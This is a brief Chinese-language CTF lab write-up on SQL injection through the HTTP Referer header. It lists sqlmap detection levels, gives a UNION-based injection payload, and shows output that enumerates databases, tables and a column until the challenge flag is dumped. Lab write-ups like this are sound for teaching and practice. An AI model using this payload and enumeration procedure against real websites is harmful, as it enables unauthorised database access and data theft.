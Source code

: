```yaml
---
title: Refer注入
date: 2024-11-24T00:02:16Z
lastmod: 2024-11-24T00:52:58Z
---
```


# Refer注入

**level有5级，越高检测越全，默认为 1**

> --level 1 检测Get和Post
>
> --level 2 检测HTTP Cookie
>
> --level 3 检测User-Agent和Referer
>
> --level 4 检测
>
> --level 5 检测 HOST 头

 --

```shell
---
Parameter: Referer (Referer)
    Type: UNION query
    Title: Generic UNION query (random number) - 2 columns
    Payload: -5848 UNION ALL SELECT CONCAT(0x7171787a71,0x6543727846745555584e4546736d6442655a6c63646a786c626d6f634b6e6f4c43554a6a4b746676,0x7170787871),3313-- -
---
```

```shell
available databases [4]:                                                                                             
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli
```

```shell
Database: sqli                                                                                                       
[2 tables]
+------------+
| news       |
| tqslaiphcq |
+------------+
```

```shell
Database: sqli
Table: tqslaiphcq
[1 column]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| lpmuqabrgy | varchar(100) |
+------------+--------------+

```

```shell
Database: sqli
Table: tqslaiphcq
[1 entry]
+----------------------------------+
| lpmuqabrgy                       |
+----------------------------------+
| ctfhub{51e1881db6437cceea0c3876} |
+----------------------------------+
```
